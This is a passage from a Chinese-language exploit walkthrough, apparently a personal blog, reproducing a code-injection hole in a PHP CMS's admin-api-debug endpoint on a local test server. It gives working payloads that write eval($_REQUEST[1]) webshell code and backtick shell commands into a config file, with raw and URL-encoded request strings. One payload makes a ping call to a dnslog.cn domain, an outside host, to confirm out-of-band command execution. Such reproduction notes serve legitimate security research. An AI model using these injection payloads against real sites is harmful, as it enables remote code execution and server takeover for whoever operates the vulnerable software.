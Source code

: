 3、这里我想了好久，想着试试更换echo输出看看
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974252476-7716d00d-14a0-4716-b201-a544a6f60a7b.png#align=left&display=inline&height=131&margin=%5Bobject%2Object%5D&name=image.png&originHeight=262&originWidth=1216&size=17745&status=done&style=none&width=608)
```php
<?php return ['name'=>'123'];echo '12344321';//',]; 
```
在页面中并没有输出
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974272002-aae9ec72-7aef-4da2-9334-3b1d52dd1fdc.png#align=left&display=inline&height=349&margin=%5Bobject%2Object%5D&name=image.png&originHeight=698&originWidth=1572&size=32195&status=done&style=none&width=786)
4、查阅资料之后理解了return后代码不再向下执行，此路不通
参考链接：[https://www.cnblogs.com/gzpu/p/13736420.html](https://www.cnblogs.com/gzpu/p/13736420.html)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974368673-8697062b-c811-4893-8104-93859af43ce4.png#align=left&display=inline&height=360&margin=%5Bobject%2Object%5D&name=image.png&originHeight=720&originWidth=1780&size=173801&status=done&style=none&width=890)
## 第二次踩坑
1、既然不能通过分号结束代码后执行其他代码的话，我能不能在return中执行代码呢，此处进行了尝试
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974559232-6d36dadf-930e-47a1-9480-1ec1a7fedfff.png#align=left&display=inline&height=166&margin=%5Bobject%2Object%5D&name=image.png&originHeight=332&originWidth=1320&size=21063&status=done&style=none&width=660)
```php
<?php return ['name'=>'123',eval($_REQUEST[1]);'',]; 
```
于是……页面报错了
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974695282-85560a7a-e2ed-420b-a587-3fca009fce13.png#align=left&display=inline&height=208&margin=%5Bobject%2Object%5D&name=image.png&originHeight=416&originWidth=1896&size=51008&status=done&style=none&width=948)
2、再试试换行
```php
http://127.0.0.1/index.php/admin-api-debug.html?id=123%27,%0aeval($_REQUEST[1]);%27
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974633748-97685352-f49d-473f-8a3b-2bee5cd0f9f9.png#align=left&display=inline&height=255&margin=%5Bobject%2Object%5D&name=image.png&originHeight=510&originWidth=1766&size=41682&status=done&style=none&width=883)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974665241-8ade3301-0ef4-4c8e-81c7-ed35aaf695d6.png#align=left&display=inline&height=149&margin=%5Bobject%2Object%5D&name=image.png&originHeight=298&originWidth=774&size=17721&status=done&style=none&width=387)
好的，还是不执行
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974689654-d9f1edad-993c-47cf-bd87-4a90e81ca765.png#align=left&display=inline&height=208&margin=%5Bobject%2Object%5D&name=image.png&originHeight=416&originWidth=1896&size=51008&status=done&style=none&width=948)
## 第三次，渐渐好起来了
1、因为代码执行行不通，那我就想着试试命令执行看可不可以。先申请一个dnslog，链接：[http://dnslog.cn/](http://dnslog.cn/)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627975381688-d15ad1b7-76f1-415d-bcd7-e22aa5ba1eb6.png#align=left&display=inline&height=368&margin=%5Bobject%2Object%5D&name=image.png&originHeight=736&originWidth=1678&size=96742&status=done&style=none&width=839)
2、使用.拼接反引号执行命令
```php
http://127.0.0.1/index.php/admin-api-debug.html?id=123%27].`ping%20123.yh6nta.dnslog.cn`;//
```
查看文件情况
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627975963563-5fcf69e0-c0a5-4b5c-a539-91dc15f8ed2b.png#align=left&display=inline&height=130&margin=%5Bobject%2Object%5D&name=image.png&originHeight=260&originWidth=1520&size=21022&status=done&style=none&width=760)
```php
<?php return ['name'=>'123'].`ping 123.yh6nta.dnslog.cn`;//',]; 
```
访问看看，发现报错了，但是dnslog记录了数据，命令执行成功了
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627975999637-a25ee21b-1180-4e35-b011-5cfd6aa1b280.png#align=left&display=inline&height=205&margin=%5Bobject%2Object%5D&name=image.png&originHeight=410&originWidth=1638&size=42918&status=done&style=none&width=819)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627976022017-93c02bcb-6de0-4975-9a73-97abf75fcd0d.png#align=left&display=inline&height=243&margin=%5Bobject%2Object%5D&name=image.png&originHeight=486&originWidth=1562&size=52679&status=done&style=none&width=781)


3、这里报错怀疑是使用了点进行拼接，两边的字符类型不匹配，因为命令执行可以使用符号进行连接，所以在这里将点替换成&。
因为&在url中还有其他含义，所以先进行url编码。
```php
123']&`ping 123.yh6nta.dnslog.cn`;//
#url编码
123%27%5D%26%60ping%20123.yh6nta.dnslog.cn%60%3B%2F%2F
```
```php
http://127.0.0.1/index.php/admin-api-debug.html?id=123%27%5D%26%60ping%20123.yh6nta.dnslog.cn%60%3B%2F%2F
```
查看文件情况
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627976148195-6af4632a-25e2-4522-b675-1534d18406cb.png#align=left&display=inline&height=157&margin=%5Bobject%2Object%5D&name=image.png&originHeight=314&originWidth=1460&size=22879&status=done&style=none&width=730)
```php
```